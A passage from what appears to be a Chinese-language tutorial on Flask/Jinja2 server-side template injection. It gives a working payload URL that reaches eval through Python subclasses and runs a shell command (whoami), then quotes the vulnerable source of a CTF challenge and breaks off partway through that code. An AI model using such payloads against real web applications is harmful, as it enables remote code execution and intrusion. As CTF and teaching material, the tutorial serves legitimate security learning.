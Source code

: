 ![验证索引](./Flask&jinja2&SSTI模版注入/验证索引.png)

利用os进行payload的构造。

```python
http://127.0.0.1:5000/?name={{"".__class__.__bases__[0].__subclasses__()[147].__init__.__globals__["__builtins__"]["eval"]('__import__("os").popen("whoami").read()')}}
```

![执行EXP](./Flask&jinja2&SSTI模版注入/执行EXP.png)

### CTF题目

靶场地址：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[WesternCTF2018]shrine)

![进入靶场](./Flask&jinja2&SSTI模版注入/CTF/进入靶场.png)

分析源码：

```python
import flask
import os
app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')
# 注册了一个名为FLAG的config
@app.route('/')
def index():
    return open(__file__).read()

@app.route('/shrine/')
def shrine(shrine):

    def safe_jinja(s):
        # 替换掉()
```